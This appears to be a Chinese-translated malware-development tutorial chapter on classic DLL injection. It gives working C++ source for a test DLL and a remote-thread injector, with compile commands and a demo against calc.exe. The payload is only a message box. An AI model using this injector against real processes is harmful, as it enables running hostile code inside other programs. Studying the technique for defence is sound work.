








\newpage
\subsection{经典 DLL 注入：简单的 C++ 恶意软件}

﷽

{width=400px}

本节我们将讨论一种使用调试 API 的经典 DLL 注入技术。关于经典代码注入，我在上一节中已经介绍过。

首先，我们来准备 DLL。

为 exe 和 DLL 编写 C 代码有细微差别。基本区别在于如何在模块或程序中调用你的代码。在 exe 的情况下，应该有一个名为 main 的函数，当操作系统加载器完成新进程的所有初始化后，会调用它。此时，当 OS 加载器完成工作后，你的程序就开始执行。

另一方面，对于 DLL，当你希望把程序作为动态库运行时，方式略有不同：加载器已经创建了内存中的进程，而由于某些原因，该进程需要你的 DLL 或任何其他 DLL 被加载到进程中，这可能是因为你的 DLL 实现了某些函数。

所以 exe 需要一个 main 函数，而 DLL 需要 DllMain 函数。

基本上这就是最简单的区别。

为简单起见，我们创建一个只会弹出消息框的 DLL：

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
  MessageBox(
  NULL,
  "Meow from evil.dll!",
  "=^..^=",
  MB_OK
  );
  break;
  case DLL_PROCESS_DETACH:
  break;
  case DLL_THREAD_ATTACH:
  break;
  case DLL_THREAD_DETACH:
  break;
  }
  return TRUE;

```

它只包含 DllMain，也就是 DLL 库的主函数。它没有声明任何导出函数，而合法 DLL 通常会这么做。DllMain 的代码会在 DLL 被加载到进程内存后立即执行。

这在 DLL 注入的语境中很重要，因为我们正在寻找在其他进程上下文中执行代码的最简单方式。这就是为什么大多数被注入的恶意 DLL 都把大部分恶意代码放在 DllMain 中。虽然也有办法强制进程运行导出函数，但把代码写在 DllMain 中通常是实现代码执行最简单的方案。

当它在被注入的进程中运行时，应该显示我们的消息："Meow from evil.dll!"，这样我们就知道注入成功了。现在我们可以编译它（在攻击者机器上）：

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

{width=400px}

然后把它放到我们选定的目录中（受害者机器上）：

{width=400px}

现在我们只需要一段代码，把这个库注入到我们选定的进程中。

在我们的例子中，我们要讨论的是经典 DLL 注入。我们分配一个空缓冲区，其大小至少等于 DLL 在磁盘上路径的长度。然后我们把路径复制到这个缓冲区。

```cpp
/*
* evil_inj.cpp
* classic DLL injection example
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
  printf("PID not found :( exiting...\n");
  return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, 
  FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, 
  rb, 0, NULL);
  CloseHandle(ph);
  return 0;

```

如你所见，这非常简单。与我在经典代码注入一节中的做法相同。唯一的区别是，我们添加了 DLL 在磁盘上的路径（1），并且在最终注入并运行 DLL 之前，我们需要 LoadLibraryA 的内存地址，因为这将是我们将在受害者进程上下文中执行的 API 调用，用于加载我们的 DLL（2）：

{width=400px}

那么，在理解了注入器的全部代码之后，我们就可以测试它了。编译：

```bash
x86_64-w64-mingw32-gcc -O2 evil_inj.cpp -o inj.exe
-mconsole -I/usr/share/mingw-w64/include/ -s
-ffunction-sections -fdata-sections -Wno-write-strings
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc -fpermissive >/dev/null 2>&1
```

{width=400px}

我们先启动一个 calc.exe 实例，然后执行我们的程序：

{width=400px}

要验证我们的 DLL 确实被注入到了 calc.exe 进程中，我们可以使用 Process Hacker。

{width=400px}

在另一个内存区域中，我们可以看到：

{width=400px}

看起来我们简单的注入逻辑奏效了！这只是把 DLL 注入到另一个进程的最简单方法，但在很多情况下它已经足够，而且非常有用。

如果你愿意，还可以加入函数调用混淆，这将在后续章节中研究。

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)  
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)  
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)  
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)  
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)  
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

在后续章节中，我将尝试研究更高级的代码注入技术。

源代码见 GitHub。
